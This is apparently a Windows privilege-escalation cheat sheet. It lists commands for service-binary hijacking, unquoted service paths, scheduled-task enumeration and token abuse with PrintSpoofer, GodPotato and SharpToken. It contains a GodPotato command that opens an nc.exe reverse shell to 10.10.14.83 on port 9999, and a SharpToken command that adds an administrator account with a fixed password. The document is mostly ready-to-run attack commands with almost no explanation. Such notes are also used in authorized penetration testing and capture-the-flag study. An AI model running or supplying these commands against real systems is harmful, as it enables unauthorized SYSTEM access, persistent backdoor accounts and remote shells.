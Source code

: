 ```powershell
# Binary Hijacking
Get-ModifiableServiceFile
## AbuseFunction
Install-ServiceBinary -Name ''

# UnquotedService
Get-UnquotedService
## AbuseFunction  
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
### SharpUp
Ghostpack
```powershell
.\SharpUp.exe audit
```
### LOLBIN
```powershell
# Binary Hijacking
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\xampp\mysql\bin\mysqld.exe"
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
net stop mysql
shutdown /r /t 0 

# tasks
schtasks /query /fo LIST /v
Get-ScheduledTask

## Watch
wget https://raw.githubusercontent.com/markwragg/PowerShell-Watch/master/Watch/Public/Watch-Command.ps1
Get-Process -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds 20
```
### token
```powershell
# PrintSpoofer
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe

# GodPotato
cd /usr/share/windows-resources/binaries/
.\GodPotato-NET4.exe -cmd "C:\Windows\Temp\nc.exe 10.10.14.83 9999 -e cmd"

# SharpToken
cd /usr/share/windows-resources/binaries/
.\SharpToken.exe list_token
.\SharpToken.exe execute "NT AUTHORITY\SYSTEM" cmd true
.\SharpToken.exe add_user admin Abcd1234! Administrators
```
#### Full Power
https://github.com/itm4n/FullPowers
### S4U
https://github.com/Kevin-Robertson/Powermad
<br/>
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
